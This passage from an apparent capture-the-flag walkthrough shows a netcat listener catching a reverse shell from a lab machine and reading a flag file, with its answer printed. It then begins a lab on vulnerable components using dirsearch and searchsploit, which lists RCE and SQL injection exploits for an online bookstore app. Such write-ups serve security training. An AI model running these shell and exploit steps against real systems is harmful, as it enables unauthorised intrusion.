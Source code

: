 ```
┌──(root💀kali)-[~]
└─# nc -lvnp 4444         
listening on [any] 4444 ...
connect to [10.8.241.141] from (UNKNOWN) [10.10.42.232] 34580
/bin/sh: 0: can't access tty; job control turned off
$ find / -type f -name flag.txt 2> /dev/null
/home/cmnatic/flag.txt
$ cat /home/cmnatic/flag.txt
4a69a7ff9fd68
```
> *Answer:* 4a69a7ff9fd68


<br><br>
# [Severity 9] Components With Known Vulnerabilities - Lab

### How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)
Use dirsearch.
```
┌──(root💀kali)-[~]
└─# dirsearch -u http://<machine ip>/
...
[17:49:31] 200 -  116B  - /README.md
...
```
Google Search <a href="https://github.com/projectworldsofficial/online-book-store-project-in-php" target="_blank">online-book-store-project-in-php</a>.<br>
Use searchsploit.
```
┌──(root💀kali)-[~]
└─# searchsploit online book store                                                                                                                                                                              1 ⨯
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                    |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GotoCode Online Bookstore - Multiple Vulnerabilities                                                                                                                              | asp/webapps/17921.txt
Online Book Store 1.0 - 'bookisbn' SQL Injection                                                                                                                                  | php/webapps/47922.txt
Online Book Store 1.0 - 'id' SQL Injection                                                                                                                                        | php/webapps/48775.txt
Online Book Store 1.0 - Arbitrary File Upload                                                                                                                                     | php/webapps/47928.txt
Online Book Store 1.0 - Unauthenticated Remote Code Execution                                                                                                                     | php/webapps/47887.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(root💀kali)-[~]
```